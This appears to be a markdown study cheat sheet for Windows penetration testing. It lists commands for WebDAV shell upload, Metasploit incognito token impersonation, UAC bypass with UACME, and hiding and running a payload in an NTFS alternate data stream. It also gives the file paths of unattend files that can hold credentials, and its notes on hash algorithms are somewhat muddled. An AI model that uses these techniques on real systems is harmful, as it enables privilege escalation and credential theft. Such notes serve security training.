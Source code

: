 ## Frequently Exploited Services
```
Microsoft IIS (internet information services)
WebDAV (WebBased Distributed Authoring and versioning)
RDP (Remote Desktop Protocol)
WinRM (Remote Management)
```

## MicrosoftIIS + WebDAV Exploiting
```
Enumerate using -----     davtest
Upload shell and Exploit using  ------ cadaver
```

## MSFConsole
```
multi/recon/local_exploit_suggester
```
## Kernal Exploits

```
exploit suggester python script --database --systeminfo
```

## Window Privesc
### UACME
```
UAC Bypassing UACME
```
### Access Token Impersonation ( Noted: Access Token are created and managed by "LSASS Local Security Authority SubSystem Service" then attached to userinit.exe)

#### Privilege Required For Impersonation
```
SeAssignPrimaryToken:
SeCreateToken:
SeImpersonatePrivilege:
```
#### Incoginto in Metasploit
```
load incognito
list_tokens -u
impersonate_token "--token---"
```
### Alternate Data Streams ( To hide malicious payload inside the legitimate files' metadata )
```
first create a txt file : "notepad lee.txt"
type "file to hide" > lee.txt:somthing.exe
mklink aname.exe C:\path\to\lee.txt:something.exe
.\aname.exe
```
### Dumping Password Hashes
#### NT NTLM hashes 
```
NT --> Split into seven chunk of character, uppercase them all, DES Algorithm
NTLM --> Case-sensitive, use MD4 algorithms
```

#### Search Password in Window Config files
##### Unattened Window Setup Utility
```
C:\\Windows\Panther\Unattend.xml
C:\\Windows\Panther\Autounattend.xml
```

























